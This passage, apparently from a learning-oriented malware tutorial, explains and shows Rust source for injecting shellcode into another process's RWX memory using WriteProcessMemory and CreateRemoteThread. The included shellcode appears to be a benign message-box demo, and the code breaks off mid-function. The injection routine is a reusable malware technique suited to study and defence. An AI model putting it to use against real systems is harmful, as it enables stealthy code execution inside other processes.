 This is the `inject_shellcode_into_rwx_region` function that injects the shellcode into the `RWX` memory region of the target process.
This is pretty straightforward. We define the shellcode as a byte array and write it into the target process using [`WriteProcessMemory`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). Then, we create a remote thread in the target process that starts executing the shellcode using [`CreateRemoteThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).


## Source Code

````rust
use std::ptr;
use winapi::shared::minwindef::FALSE;
use winapi::shared::ntdef::HANDLE;
use winapi::um::handleapi::CloseHandle;
use winapi::um::memoryapi::{VirtualQueryEx, WriteProcessMemory};
use winapi::um::processthreadsapi::{CreateRemoteThread, OpenProcess};
use winapi::um::psapi::{EnumProcesses, GetModuleBaseNameW};
use winapi::um::winnt::{MEMORY_BASIC_INFORMATION, PROCESS_ALL_ACCESS};

// find the updated version at:
// https://github.com/ammarbinfaisal/me-learns-malwares/blob/master/enum-processes-with-rwx-memory/src/main.rs

fn inject_shellcode_into_rwx_region(
    handle: HANDLE,
    base_address: *mut winapi::ctypes::c_void,
) -> Result<(), Box<dyn std::error::Error>> {
    let shellcode: [u8; 317] = [
        0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00, 0x00, 0x41, 0x51,
        0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48,
        0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48,
        0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
        0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e,
        0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x3e, 0x8b, 0x80, 0x88,
        0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x6f, 0x48, 0x01, 0xd0, 0x50, 0x3e, 0x8b, 0x48,
        0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
        0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41,
        0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x3e, 0x4c, 0x03, 0x4c, 0x24,
        0x08, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0,
        0x66, 0x3e, 0x41, 0x8b, 0x0c, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x3e,
        0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41,
        0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
        0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x3e, 0x48, 0x8d,
        0x8d, 0x25, 0x01, 0x00, 0x00, 0x41, 0xba, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x49, 0xc7,
        0xc1, 0x00, 0x00, 0x00, 0x00, 0x3e, 0x48, 0x8d, 0x95, 0x0e, 0x01, 0x00, 0x00, 0x3e, 0x4c,
        0x8d, 0x85, 0x1a, 0x01, 0x00, 0x00, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x07,
        0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x48, 0x65,
        0x6c, 0x6c, 0x6f, 0x20, 0x57, 0x6f, 0x72, 0x6c, 0x64, 0x00, 0x4d, 0x65, 0x73, 0x73, 0x61,
        0x67, 0x65, 0x42, 0x6f, 0x78, 0x00, 0x75, 0x73, 0x65, 0x72, 0x33, 0x32, 0x2e, 0x64, 0x6c,
        0x6c, 0x00,
    ];

    unsafe {
        let mut bytes_written = 0;

        WriteProcessMemory(
            handle,
            base_address,
            shellcode.as_ptr() as *const _,
            shellcode.len(),
            &mut bytes_written,
        );
````